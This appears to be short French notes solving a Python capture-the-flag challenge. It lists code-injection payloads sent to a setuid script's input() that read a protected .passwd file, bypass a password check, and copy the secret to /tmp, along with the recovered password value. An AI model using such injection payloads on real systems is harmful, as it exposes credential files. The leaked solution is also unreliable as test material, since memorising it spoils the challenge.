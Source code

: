 
Password accepté : int(open(".passwd").readline().strip())

SOLUTIONS :

au début ils disent " /tmp and /var/tmp are writeable " donc

./setuid-wrapper    (car ch6.py n'a pas les droits)

open("/tmp/passwd","w").write(open(".passwd").readline().strip())

nano /tmp/passwd

13373439872909134298363103573901

1 == 1 or int(open(".passwd").readline().strip())

open("/tmp/passwd","w").write(open(".passwd").readline().strip())


1 == 1 or 3